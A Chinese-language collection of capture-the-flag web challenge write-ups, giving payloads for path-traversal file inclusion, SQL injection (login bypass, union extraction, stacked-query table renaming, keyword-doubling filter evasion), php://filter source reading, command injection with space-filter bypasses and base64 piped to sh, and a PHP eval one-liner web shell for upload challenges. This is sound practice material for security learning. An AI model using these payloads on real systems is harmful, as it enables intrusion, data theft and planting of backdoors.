

[TOC]

## 0x1.[HCTF 2018]WarmUp

代码审计+文件包含

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
/*这里mb_sustr 是个截断，返回0到mb_strpos之间的内容，而mb_strps 则是查找第一次出现的位置，
所以基本可以理解为获取page 两个？之间的字符串，也就是获取file两个？之间的字符串，放到url中就是http://ip/?file=ddd?中的file=ddd*/

            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

`?file=source.php?/../../../../ffffllllaaaagggg`

或

`?file=hint.php?/../../../../ffffllllaaaagggg`

## 0x2.[极客大挑战 2019]EasySQL

直接

`payload: username=admin' or '1'='1&password=aaa' or '1'='1`

`username=admin&password=aa' or '1'='1`


## 0x3.[强网杯 2019]随便注

用union select 时：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

### 1）.堆叠注入：

show database;

show tables;

查看表结构：

```
desc `1919810931114514`--+
注意要用`引起来
或：show colunms from `1919810931114514`
```

可以知道，有两个表，words，1919810931114514(这里面有flag)。

大致查询语句应该为：select id,data from words where id=;

那么可以将words表改名为aaa，将1919810931114514改为words，再将id改为flag。（偷天换日的感觉）

>  1'; rename table words to word1; rename table \`1919810931114514\` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#

```
修改已知表的列：

添加一个列
alter table "table_name" add " column_name"  type;

删除一个列
alter table "table_name" drop " column_name"  type;

改变列的数据类型
alter table "table_name" alter column " column_name" type;

改列名
alter table "table_name" change " column1" " column2" type;
alter table "table_name" rename "column1" to "column2";
```


## 0x4.[极客大挑战 2019]Havefun

看源码：

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog')
{
	echo 'Syc{cat_cat_cat_cat}';
}
```

直接出flag

## 0x5.[SUCTF 2019]EasySQL

还是堆叠注入

show databases;和show tables后就不知道干啥了。。

比较坑，没有提示

后来看了wp，查询语句是：select $_post[query] || flag from flag

### 1）正解

```sql
1;set sql_mode=pipes_as_concat;select 1
```

即：select 1;set sql_mode=pips_as_concat;select 1 || flag from flag

**补充**：

系统变量@@sql_mode：是一组mysql支持的基本语法及校验规则
PIPES_AS_CONCAT：将“||”视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

[Mysql中sql_mode参数](https://blog.csdn.net/weixin_42373127/article/details/88866710)

### 2）非预期解

构造：

``` 
select *,1 || flag from flag
```

## 0x6.[ACTF2020 新生赛]Include

使用php://input 伪协议+POST发送php代码，不行

使用php://filter伪协议进行包含

于是：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

php://filter与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

## 0x7.[极客大挑战 2019]Secret File

有个action.php的文件，之后抓包访问，有个secr3t.php文件，访问：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
```

可以和上一题一样，php://filter

payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

解码:

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{2c021ef6-68a2-4674-bf4d-ca928f144327}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
</html>

```


## 0x8.[极客大挑战 2019]LoveSQL

不知道为啥，这里只能%23，不能#和--+

```
?username=admin'%23&password=1

?username=admin' order by 3%23&password=1

?username=111' union select 1,2,3%23&password=1
是2和3

?username=111' union select 1,database(),3%23&password=1
数据库名：geek

?username=111' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geek'%23&password=1
得到可疑表：l0ve1ysq1

?username=111' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'%23&password=1
得到字段id,username,password

?username=111' union select 1,group_concat(id,username,password),3 from geek.l0ve1ysq1%23&password=1
或者：
?username=111' union select id,username,password from geek.l0ve1ysq1 limit 0,1%23&password=1
一个一个查
```

## 0x9.[ACTF2020 新生赛]Exec

就是连接命令，可以管道符||，也可以分号，或者&这个符号。

但是经过测试，之后分号可以多个命令一起执行（在这道题）



找到flag.

## 0xA.[GXYCTF2019]Ping Ping Ping

打开后发现无论是cat flag.php还是index.php都打不开，经过测试发现可能是过滤了空格。

>   1.  ${IFS}替换
>   2.  \$IFS\$1替换
>   3.  ${IFS替换
>   4.  %20替换
>   5.  <和<>重定向符替换
>   6.  %09替换

$IFS是shell中的一个变量，

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

可以看到确实过滤了很多东西

### 1)拼接

```
?ip=1;a=g;cat$IFS$1fla$a.php;
```

### 2)base64

```
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

其中Y2F0IGZsYWcucGhw是cat flag.php的base64编码，之后用base64 -d命令解码

### 3)内敛绕过(NB)

```
?ip=111;cat$IFS$1`ls`
```

就是将反引号内命令的输出作为输入执行。


## 0xB.[极客大挑战 2019]Knife

菜刀连一下就OK

## 0xC.[RoarCTF 2019]Easy Calc

这题用到的知识点：**PHP的字符串解析特性**

**可以先查看根目录下文件：**

```
?%20num=1;var_dump(scandir(chr(47)))
```


为什么要在num前加空格？

​	假如waf不允许num变量传递字母，可以在num前加个空格，这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

如果发现过滤，可以使用chr()转ascii之后拼接。


**列出flagg**：

```
?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

之后得到flag


**PHP的字符串解析特性是什么？**

答： PHP需要将所有参数转换为有效的变量名，因此在**解析查询字符串时**，它会做两件事：

1.删除空白符 

2.将某些字符转换为下划线（包括空格）

[当waf不让你过的时候，php却可以让你过]


还有一种方法：

**HTTP走私攻击（HTTP数据接收不同步攻击）**

## 0xD.[极客大挑战 2019]Http

找到Secret.php文件

说没有来自https://www.Sycsecret.com网站，加

```
Referer:https://www.Sycsecret.com
```

又说不是某个浏览器i，该user-agent

说只能来自本地：X-Forwarded-For:127.0.0.1

之后得到flag

```
Referer：来自哪个网站
User-agent：浏览器
x-forwarded-for：伪造IP
```

## 0xE.[极客大挑战 2019]Upload

文件上传，

常用一句话：

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

绕过后缀：

```
php,php3,php4,php5,phtml,pht
```

更改文件类型：

```
image/jpeg
```

得到flag

## 0xF.[极客大挑战 2019]BabySQL

```
对or by 有过滤
用union select试下
check.php?username=admin&password=111 %27 uniounionn selecselectt 1,2,3%23

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(schema_name),3 frofromm infoorrmation_schema.schemata %23
可疑数据库：ctf

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(table_name),3 frofromm infoorrmation_schema.tables whewherere table_schema='ctf' %23
有Flag表

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(column_name),3 frofromm infoorrmation_schema.columns whewherere table_schema='ctf' aandnd column_name='Flag'%23
有flag

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,flag,3 frofromm ctf.Flag%23
得到flag
```

